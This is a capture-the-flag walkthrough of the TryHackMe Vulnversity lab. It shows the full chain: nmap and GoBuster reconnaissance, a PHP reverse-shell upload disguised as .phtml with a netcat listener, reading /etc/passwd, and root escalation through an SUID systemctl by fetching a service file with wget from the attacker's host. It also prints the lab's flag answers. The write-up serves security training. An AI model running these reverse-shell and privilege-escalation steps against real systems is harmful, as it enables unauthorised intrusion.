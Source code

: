 # Module: Vulnversity

Author: Jackson Warren  
Date: August 30, 2022  

## Reconnaissance

### Nmap Scan
`$ nmap -sV -oN scans/nmap-10.10.184.78.out 10.10.184.78`

Scan the box, how many ports are open?  
Answer: **6**

What version of the squid proxy is running on the machine?  
Answer: **3.5.12**

How many ports will nmap scan if the flag -p-400 was used?  
Answer: **400**

Using the nmap flag -n what will it not resolve?  
Answer: **DNS** (-n Never do DNS resolution)  

What is the most likely operating system this machine is running?  
Answer: **Ubuntu**

What port is the web server running on?  
Answer: **3333** Apache httpd 2.4.18 ((Ubuntu))

## Locating Directories Using GoBuster
Lets first start of by scanning the website to find any hidden directories. To do this, we're going to use GoBuster.  

GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories.  

Download GoBuster here, or if you're on Kali Linux 2020.1+ run `sudo apt-get install gobuster`  

To get started, you will need a wordlist for GoBuster (which will be used to quickly go through the wordlist to identify if there is a public directory available. If you are using Kali Linux you can find many wordlists under /usr/share/wordlists.  

Now lets run GoBuster with a wordlist:  
`gobuster dir -u http://<ip>:3333 -w <word list location>`

### Running my GoBuster
`gobuster dir -u http://10.10.184.78:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o scans/goBuster-10.10.184.78:3333.out`

```
$ cat scans/goBuster-10.10.184.78:3333.out 
/images               (Status: 301) [Size: 320] [--> http://10.10.184.78:3333/images/]
/css                  (Status: 301) [Size: 317] [--> http://10.10.184.78:3333/css/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.184.78:3333/js/]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.184.78:3333/fonts/]
/internal             (Status: 301) [Size: 322] [--> http://10.10.184.78:3333/internal/]
```

What is the directory that has an upload form page?  
Answer: **/internal/**

## Compromise The Webserver
Now you have found a form to upload files, we can leverage this to upload and execute our payload that will lead to compromising the web server.  

What common file type, which you'd want to upload to exploit the server, is blocked? **Try a couple to find out.** 
Answer: **.php**

## Using Burp Suite Intruder
We're going to use Intruder (used for automating customised attacks).  
  
To begin, make a wordlist with the following extensions in:  
![List](images/list.png)  

Now make sure BurpSuite is configured to intercept all your browser traffic. Upload a file, once this request is captured, send it to the Intruder. Click on "Payloads" and select the "Sniper" attack type.  

Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so:
![Intruder](images/intruder.png)  

Intruder didn't work (all results responded with 200) so we're just going to guess that it's .phtml  
Answer: **.phtml**

Now we know what extension we can use for our payload we can progress.

We are going to use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to you. So you'll listen for incoming connections, upload and have your shell executed which will beacon out to you to control!

Download the following reverse PHP shell here.

To gain remote access to this machine, follow these steps:

    Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).

    Rename this file to php-reverse-shell.phtml

    We're now going to listen to incoming connections using netcat. Run the following command: `nc -lvnp 1234`

    Upload your shell and navigate to **http://<ip>:3333/internal/uploads/php-reverse-shell.phtml** - This will execute your payload

    You should see a connection on your netcat session
![Reverse Shell](images/nc.png)

What is the name of the user who manages the webserver?
`$ cat /etc/passwd` - tried a few and found bill  
Answer: **bill**



What is the user flag?
```
cd /home/bill	
$ ls
user.txt
$ cat user.txt
**8bd7992fbe8a6ad22a63361004cfcedb**
```
Answer: **8bd7992fbe8a6ad22a63361004cfcedb** :)

## Privilege Escalation

In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

Hint:  
`$ find / -user root -perm -4000 -exec ls -ldb {} \;`  
Better:  
`$ find / -user root -perm -4000 -print 2>/dev/null`

```
$ find / -user root -perm -4000 -print 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
It is unusual for /bin/systemctl to be an SUID file so let's try that.  
Answer: **/bin/systemctl**

It's challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?

Become root and get the last flag (/root/root.txt)

We create a root.service file and fill in **THIS**

Then start a Python http server on port 80 in the same directory as the root.service file, then run:

```
$ wget 10.6.46.221/root.service
--2022-08-30 18:39:43--  http://10.6.46.221/root.service
Connecting to 10.6.46.221:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 162 [application/octet-stream]
Saving to: 'root.service'

     0K                                                       100% 34.4M=0s

2022-08-30 18:39:43 (34.4 MB/s) - 'root.service' saved [162/162]
```

Start nc listener on port 4444  
`$ nc -nvlp 4444`  

Enable root.service with systemctl  
`$ systemctl enable /tmp/root.service`
```
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /tmp/root.service.
Created symlink from /etc/systemd/system/root.service to /tmp/root.service.
```

Start root service with systemctl  
`$ systemctl start root`

Find Flag!  
```
cd /root  
ls  
root.txt  
cat root.txt  
**a58ff8579f0a9270368d33a9966c7fd5**  
```








